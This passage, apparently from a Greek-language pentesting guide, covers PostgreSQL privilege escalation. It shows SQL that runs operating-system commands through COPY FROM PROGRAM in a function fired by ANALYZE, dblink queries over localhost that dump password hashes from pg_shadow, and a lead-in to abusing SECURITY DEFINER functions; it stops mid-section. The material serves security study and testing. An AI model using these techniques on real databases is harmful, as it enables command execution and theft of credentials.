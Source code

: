 ```sql
CREATE OR REPLACE FUNCTION public.suid_function(text) RETURNS text
LANGUAGE sql VOLATILE AS 'COPY public.shell_commands_results (data) FROM PROGRAM ''/usr/bin/id''; select ''test'';';

ANALYZE public.temp_table;
```
Στη συνέχεια, ο πίνακας `shell_commands_results` θα περιέχει το αποτέλεσμα του εκτελούμενου κώδικα:
```
uid=2345(postgres) gid=2345(postgres) groups=2345(postgres)
```
### Τοπική Σύνδεση

Κάποιες λανθασμένα διαμορφωμένες περιπτώσεις του postgresql μπορεί να επιτρέπουν τη σύνδεση οποιουδήποτε τοπικού χρήστη, είναι δυνατή η τοπική σύνδεση από τη διεύθυνση 127.0.0.1 χρησιμοποιώντας τη **συνάρτηση `dblink`**:
```sql
\du * # Get Users
\l    # Get databases
SELECT * FROM dblink('host=127.0.0.1
port=5432
user=someuser
password=supersecret
dbname=somedb',
'SELECT usename,passwd from pg_shadow')
RETURNS (result TEXT);
```
{% hint style="warning" %}
Σημειώστε ότι για το προηγούμενο ερώτημα να λειτουργήσει **η λειτουργία `dblink` πρέπει να υπάρχει**. Αν δεν υπάρχει, μπορείτε να προσπαθήσετε να τη δημιουργήσετε με την εντολή:
```sql
CREATE EXTENSION dblink;
```
{% endhint %}

Αν έχετε τον κωδικό πρόσβασης ενός χρήστη με περισσότερα προνόμια, αλλά ο χρήστης δεν επιτρέπεται να συνδεθεί από εξωτερική διεύθυνση IP, μπορείτε να χρησιμοποιήσετε την παρακάτω λειτουργία για να εκτελέσετε ερωτήματα ως αυτός ο χρήστης:
```sql
SELECT * FROM dblink('host=127.0.0.1
user=someuser
dbname=somedb',
'SELECT usename,passwd from pg_shadow')
RETURNS (result TEXT);
```
Είναι δυνατόν να ελέγξετε αν αυτή η συνάρτηση υπάρχει με:
```sql
SELECT * FROM pg_proc WHERE proname='dblink' AND pronargs=2;
```
### **Προσαρμοσμένη ορισμένη συνάρτηση με** SECURITY DEFINER

[**Σε αυτό το άρθρο**](https://www.wiz.io/blog/hells-keychain-supply-chain-attack-in-ibm-cloud-databases-for-postgresql), οι ελεγκτές ασφαλείας κατάφεραν να πραγματοποιήσουν προνόμια εντός μιας προσθήκης postgres που παρέχεται από την IBM, επειδή **βρήκαν αυτήν τη συνάρτηση με τη σημαία SECURITY DEFINER**:
